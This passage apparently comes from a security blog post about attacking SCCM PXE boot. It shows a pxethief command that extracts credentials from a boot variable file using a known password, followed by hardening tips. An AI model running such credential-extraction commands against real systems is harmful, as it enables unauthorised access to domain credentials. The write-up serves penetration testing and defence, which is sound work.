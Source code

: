 - Now we can use it on pxethief and get the same creds as before

```powershell
py.exe pxethief.py 3 ".\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" hello
```

![pxe_creds_with_password.png](/assets/blog/SCCM/pxe_creds_with_password.png)

> How to Secure this ?
> - use a strong password for pxe
> - do not use default administrator creds on image creation
> - enable bitlocker on pxe options
> - consider using a dedicated vlan for pxe boot
{: .prompt-tip }

